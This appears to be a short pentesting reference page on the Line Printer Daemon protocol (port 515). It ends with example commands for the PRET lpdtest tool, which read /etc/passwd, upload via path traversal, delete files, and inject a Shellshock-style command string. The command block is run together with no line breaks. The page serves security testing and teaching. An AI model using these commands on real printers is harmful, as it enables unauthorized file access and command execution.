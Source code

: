 # Line Printer Daemon (LPD) - 515

In the 1980s, Berkeley Unix introduced the Line Printer Daemon (LPD) protocol (later specified by RFC1179). The daemon is accessible via the **lpr** command and runs on port 515/tcp. To print, the client sends a control file that specifies the job/username and a data file that contains the actual data to be printed. The data file's input type can be specified in the control file by selecting one of several file formats. However, how the print data is handled is up to the LPD implementation. LPRng is a popular LPD implementation for Unix-like operating systems. LPD can be used to deliver malicious PostScript or PJL print jobs.

PRET includes the lpdprint and lpdtest tools. They are a simple way to print data directly to an LPD printer or to download/upload/delete files, among other things:

```
lpdprint.py hostname filenamelpdtest.py hostname get /etc/passwdlpdtest.py hostname put ../../etc/passwdlpdtest.py hostname rm /some/file/on/printerlpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'lpdtest.py hostname mail lpdtest@mailhost.local
```

